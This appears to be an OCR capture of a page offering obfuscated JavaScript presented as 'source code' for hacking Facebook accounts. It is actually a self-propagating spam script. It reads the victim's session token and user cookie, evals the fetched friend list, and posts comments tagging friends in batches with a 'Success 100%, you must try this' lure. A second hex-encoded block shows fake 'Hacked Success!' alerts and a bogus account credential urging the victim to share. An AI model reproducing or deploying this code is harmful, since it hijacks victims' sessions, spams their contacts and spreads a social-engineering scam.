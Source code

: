 var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","477457172359290","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," please try 󾁇 @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=Success 100%, you must try this 󾬐 󾔐󾠓󾁓󾮜 \udbba\udc28 \udbb8\udc40 \udbb8\udc3d \udbb8\udc3c \udbb8\udc41 \udbb8\udc46 \udbb8\udc45 very easy you can follow this step by step ;) ","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
var _0xb73c=["\x59\x6F\x75\x20\x46\x6F\x75\x6E\x64\x20\x31\x20\x46\x61\x63\x65\x62\x6F\x6F\x6B\x20\x41\x63\x63\x6F\x75\x6E\x74","\x0A","\x48\x61\x63\x6B\x65\x64\x20\x53\x75\x63\x63\x65\x73\x73\x21","\x45\x6D\x61\x69\x6C\x20\x3A\x20\x48\x61\x63\x6B\x73\x55\x73\x65\x72\x73\x31\x37\x38\x32\x40\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x20\x7C\x20\x50\x61\x73\x73\x20\x3A\x20\x48\x61\x63\x6B\x73\x31\x37\x38\x32","\x31\x37\x38\x32\x20\x46\x61\x63\x65\x62\x6F\x6F\x6B\x20\x41\x63\x63\x6F\x75\x6E\x74","\x54\x6F\x74\x61\x6C\x20\x48\x61\x63\x6B\x65\x64\x20\x54\x6F\x64\x61\x79\x20\x42\x79\x20\x52\x69\x7A\x6B\x79\x5F\x43\x72\x65\x61\x74\x69\x6F\x6E\x73\x20\x3A","\x43\x6C\x69\x63\x6B\x20\x53\x68\x61\x72\x65\x20\x54\x6F\x20\x57\x6F\x72\x6B\x20\x31\x30\x30\x25"];var a=_0xb73c[0];function MsgBox(_0xb7e2x3){alert(_0xb7e2x3+_0xb73c[1]+a);} ;MsgBox(_0xb73c[2]);alert(_0xb73c[3]);var a=_0xb73c[4];MsgBox(_0xb73c[5]);alert(_0xb73c[6]);
